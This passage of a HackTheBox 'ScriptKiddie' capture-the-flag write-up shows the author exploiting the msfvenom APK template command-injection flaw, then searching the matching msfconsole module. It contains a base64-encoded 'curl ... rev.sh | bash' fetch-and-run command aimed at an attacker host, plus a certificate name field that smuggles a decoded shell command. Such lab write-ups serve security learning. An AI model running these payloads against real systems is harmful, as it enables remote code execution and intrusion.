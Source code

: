 I got a hit on my Python server, but nothing in netcat:

![[Pasted image 20210612143319.png]]

I tried one more time, using `curl` instead of `wget`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "curl http://10.10.16.211/rev.sh | bash" | base64
Y3VybCBodHRwOi8vMTAuMTAuMTYuMjExL3Jldi5zaCB8IGJhc2gK
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ python3 gen-apk.py 
[+] Manufacturing evil apkfile
Payload: echo "Y3VybCBodHRwOi8vMTAuMTAuMTYuMjExL3Jldi5zaCB8IGJhc2gK" | base64 -d | bash
-dname: CN='|echo ZWNobyAiWTNWeWJDQm9kSFJ3T2k4dk1UQXVNVEF1TVRZdU1qRXhMM0psZGk1emFDQjhJR0poYzJnSyIgfCBiYXNlNjQgLWQgfCBiYXNo | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp056ul9j3/evil.apk
Do: msfvenom -x /tmp/tmp056ul9j3/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

This time it worked!

![[Pasted image 20210612143650.png]]

### With msfconsole

The first time I did this box, I used msfconsole to generate the apk after not getting it to work manually. It worked first time, and I always wondered what the command was. I'm happy to have been able to successfully debug this the second time around!

Here's what I did with msfconsole either way:

```bash
msf6 > search msfvenom

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection

msf6 > info 0
```
